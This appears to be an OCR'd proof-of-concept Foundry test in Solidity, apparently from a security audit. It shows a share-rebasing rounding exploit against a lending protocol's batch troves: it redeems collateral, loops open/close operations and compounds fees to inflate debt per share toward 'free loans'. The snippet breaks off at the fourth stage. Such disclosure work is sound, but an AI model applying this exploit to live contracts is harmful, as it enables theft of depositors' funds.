 ```solidity
        
        // Closing A here will credit to B and Batch, that's ok but not enough
        LatestTroveData memory trove = troveManager.getLatestTroveData(BTroveId);
        uint256 bEntireDebtB4 = trove.entireDebt;

        vm.startPrank(A);
        collateralRegistry.redeemCollateral(bEntireDebtB4, 100, 1e18); // 2 debt, 1 share (hopefully)
        vm.stopPrank();

        uint256 sharesAfterRedeem = _getBatchDebtShares(BTroveId);
        assertEq(sharesAfterRedeem, 1, "Must be down to 1, rebased");

        // Let's have B get 1 share, 2 debt | Now it will be 1 | 1 because A is socializing that share
        LatestTroveData memory bAfterRedeem = troveManager.getLatestTroveData(BTroveId);
        assertEq(bAfterRedeem.entireDebt, 1, "Must be 1, Should be 2 for exploit"); // NOTE: it's one because of the division on total shares

        // Close A (also remove from batch is fine)
        closeTrove(A, ATroveId); 

        // Now B has rebased the Batch to 1 Share, 2 Debt
        LatestTroveData memory afterClose = troveManager.getLatestTroveData(BTroveId);
        assertEq(afterClose.entireDebt, 2, "Becomes 2"); // Note the debt becomes 2 here because of the round down on what A needs to repay

    
        // === 2: Rebase to 100+ === //
        // We need to rebase to above 100
        uint256 x;
        while(x++ < 100) {
            // Each iteration adds 1 wei of debt to the Batch, while leaving the Shares at 1
            _openCloseRemainderLoop(1, BTroveId);
        }

        _logTrovesAndBatch(B, BTroveId);

        // === 3: Compound gains === //
        // We can now spam
        // Each block, we will rebase the share by charging the upfrontFee
        // This endsup taking
        uint256 y;
        while(y < 2560) {
            _triggerInterestRateFee();
            y++;

            LatestTroveData memory troveData = troveManager.getLatestTroveData(BTroveId);
            // This flags that we can borrow for free
            if(troveData.entireDebt > 4000e18 + 1) {
                break;
            }
        }
        // 2391 blocks
        console2.log("We have more than 2X MIN_DEBT of rebase it took us blocks:", y);

        _logTrovesAndBatch(B, BTroveId);


        // === 4: Free Loans === //
        uint256 debtB4 = borrowerOperations.getEntireSystemDebt();
        // We can now open a new Trove
```